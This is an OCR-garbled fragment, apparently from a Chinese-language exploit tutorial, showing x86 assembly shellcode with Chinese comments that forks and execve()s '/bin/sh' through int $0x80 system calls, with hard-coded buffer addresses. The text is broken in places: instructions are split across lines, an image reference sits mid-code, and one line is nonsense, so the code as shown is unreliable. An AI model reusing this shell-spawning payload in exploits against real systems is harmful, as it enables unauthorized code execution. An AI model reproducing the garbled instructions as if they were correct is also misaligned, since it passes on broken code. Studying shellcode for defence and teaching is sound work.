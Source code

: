 //方向标志=增量

//EAX=0

//EAX=\$AddThis （为

//在堆栈上计算 This)

//我们从

// 当前栈上的这个值，到

// 恢复原来的This.

//EAX=0

//我们将这个NULL写入缓冲区

//EDI=\$BufferAddress+\$BinSh00Offset

// (来自\"/bin/sh\"的00h地址)

//我们把这个00h写在末尾

// \"/bin/sh\"

//叉 （）

//EDX=0

//如果EAX=0则跳转到LFATHER

// (如果父进程EAX=0)

movb \$0xb,%al movl

\$0x804a878,%ebx

movl \$ 0x804a870,% ecx

xorl %edx,%edx int

\$0x80

//EDX=0h (NULL)

//exec() \"/bin/sh\"

父亲：

movl %edx,%esi movl

%edx,%ecx movl %edx,

%ebx notl %ebx

movl %edx,%eax movb

\$0x72,%al int \$0x80

xorl %ecx,![](media/image11.png){width="0.10115485564304462in" height="0.11368219597550307in"}0exc3x1m,%ocvlb

movl \$0x804a8e2,%esi
